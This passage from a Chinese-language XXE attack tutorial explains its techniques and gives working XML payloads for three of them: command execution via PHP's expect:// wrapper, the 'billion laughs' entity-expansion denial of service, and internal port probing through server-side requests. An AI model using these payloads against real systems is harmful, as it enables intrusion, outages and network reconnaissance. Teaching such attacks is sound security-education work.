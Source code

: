 ##### 2、执行系统命令

在安装 expect 扩展的 PHP 环境里执行系统命令，其他协议也有可能可以执行系统命令。

```bash
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<root>
<name>&xxe;</name>
</root>
```

通过 XXE 可以实现 RCE 的实例很少。

##### 3、拒绝服务攻击 (Dos)

```bash
<?xml version="1.0"?>
   <!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

**原理**：递归引用，lol 实体具体还有“lol”字符串，然后一个 lol2 实体引用了 10 次 lol 实体，一个 lol3 实体引用了 10 次 lol2 实体，此时一个 lol3 实体就含有 10^2 个“lol”了，以此类推，lol9 实体含有 10^8 个“lol”字符串，最后再引用 lol9。

##### 4、探测内网端口与攻击内网网站

**探测内网端口**

```bash
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "http://127.0.0.1:80" >]>
<root>
<name>&xxe;</name>
</root>
```

3306 端口开放  
[![](assets/1698897471-934d159eee114ab693147ed28ae3d5b2.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20191202152107-4ea0fe60-14d4-1.jpg)  
3389 端口未开放  